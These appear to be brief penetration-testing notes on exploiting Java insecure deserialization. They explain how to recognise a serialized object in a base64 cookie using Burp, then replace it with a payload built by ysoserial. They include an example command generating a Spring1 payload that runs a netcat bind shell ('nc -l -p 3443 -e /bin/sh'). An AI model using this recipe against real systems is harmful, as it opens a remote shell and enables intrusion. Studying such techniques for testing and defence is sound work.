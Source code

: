 ### When a cookie appears to be b64 - decode in burp (to get hex output) and look for nullbytes in the string, this is a good indication that the object is serialized  
 ** Once you run through the steps to generate the payload, we simply replace the serialized cookie with our payload
 
### `ysoserial` usage  
 ** Either identify exactly which library is available OR run through each payload  
 ** Base 64 encode your output, so pipe into base64 `<ysoserial and args> | base64`  
 ** `java -jar ysoserial.jar <payload type> <command>` EG `java -jar ysoserial.jar Spring1 'nc -l -p 3443 -e /bin/sh'`  
